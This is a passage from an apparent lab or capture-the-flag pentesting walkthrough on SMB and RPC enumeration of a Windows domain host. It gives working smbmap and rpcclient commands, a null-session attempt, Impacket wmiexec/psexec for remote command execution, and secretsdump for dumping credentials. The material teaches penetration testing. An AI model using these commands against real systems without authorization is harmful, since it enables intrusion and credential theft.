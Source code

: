 **Why:** CME gives quick validation, shows shares, sessions, local admin, and supports many modules.

### 6) Enumerate shares and permissions

```bash
smbmap -H 10.10.10.182 -u '<user>' -p '<pass>'    # credentialed
smbmap -H 10.10.10.182 -u '' -p ''                # anonymous/null (if allowed)
```

**Why:** quickly identifies writable shares where you can drop files or upload a binary/agent.

### 7) Enumerate domain users & groups (credentialed rpcclient)

```bash
rpcclient -U '<domain>\<user>%<pass>' 10.10.10.182 -c 'querydominfo'
rpcclient -U '<domain>\<user>%<pass>' 10.10.10.182 -c 'enumdomusers'
rpcclient -U '<domain>\<user>%<pass>' 10.10.10.182 -c 'enumdomgroups'
rpcclient -U '<domain>\<user>%<pass>' 10.10.10.182 -c 'lookupsids S-1-5-21-...'
```

**Why:** credentialed RPC unlocks SAMR/LSA queries returning user and group data similar to LDAP.

### 8) Query sessions / logged-on users / services

```bash
# via smbclient RPC calls (some via enum4linux output). Example with rpcclient:
rpcclient -U '<domain>\<user>%<pass>' 10.10.10.182 -c 'srvinfo'
rpcclient -U '<domain>\<user>%<pass>' 10.10.10.182 -c 'netshareenum'
```

**Why:** sessions and services can reveal active user sessions, mapped drives, and service accounts.

### 9) Use Impacket tools if you have creds or hashes

```bash
# remote command exec over SMB/RPC
python3 wmiexec.py <domain>/<user>:<pass>@10.10.10.182
python3 psexec.py <domain>/<user>:<pass>@10.10.10.182
# dump secrets once privileged
python3 secretsdump.py <domain>/<user>:<pass>@10.10.10.182
```

**Why:** get shell or dump credentials if you can authenticate and escalate.

---

## `rpcclient` commands cheat-sheet (interactive)

After `rpcclient -U '<domain>\\<user>%<pass>' 10.10.10.182` at the prompt, useful commands:

- `querydominfo` — basic domain info (domain name, controllers)
    
- `enumdomusers` — list domain users (sAMAccountName-like)
    